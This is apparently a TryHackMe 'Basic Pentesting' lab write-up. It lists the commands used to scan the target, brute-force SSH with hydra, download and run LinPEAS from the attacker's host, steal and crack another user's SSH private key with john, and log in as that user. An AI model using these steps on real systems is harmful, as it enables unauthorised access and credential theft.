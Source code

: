 # Basic Pentesting - Try Hack Me


Target: 10.10.162.125


The first thing I did is to scan the ip address. Let us run an Nmap scan on the target 10.10.162.125
###### nmap scan
```
$ sudo nmap -sC -sV 10.10.162.125
```
There are multiple open ports but the port 22 is is what caught my eye. Port 22 or SSH is often used to login and perform operations on computers.
Result:



![src:index](basicpentesting_1.png)


Web Page Results:

![src:index](basicpentesting_20.PNG)  



I inspected the source code of the webpage to find interesting information 

Source Code:


![src:index](basicpentesting_21.PNG)


I tried to bruteforce the directories to look for hidden pages. I used ffuf with small.txt file.
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

After minutes of bruteforcing I got the development directory

Fuff Results:


![src:index](basicpentesting_2.png)


Now let us take a look at the development page.

![src:index](basicpentesting_23.PNG)

dev.txt

![src:index](basicpentesting_24.PNG)

j.txt

![src:index](basicpentesting_25.PNG)

According to the note, I have found out that J has a weak credentials and that his/her password hash can be cracked easily.

I used enum4linux to enumerate more information on the IP

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)

I found 2 users: jay and kay

![src:index](basicpentesting_4.png)

Now that I know the user name, I will try to bruteforce the password of jan using Hydra


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)

After minutes of waiting, we successfully retrieved the password of user jan using the password list rockyou.txt

![src:index](basicpentesting_6.png)

Let's login to user jan through ssh

###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng server para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 
###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa
![src:index](basicpentesting_11.png)

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_16.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_17.png)

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_18.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_19.png)












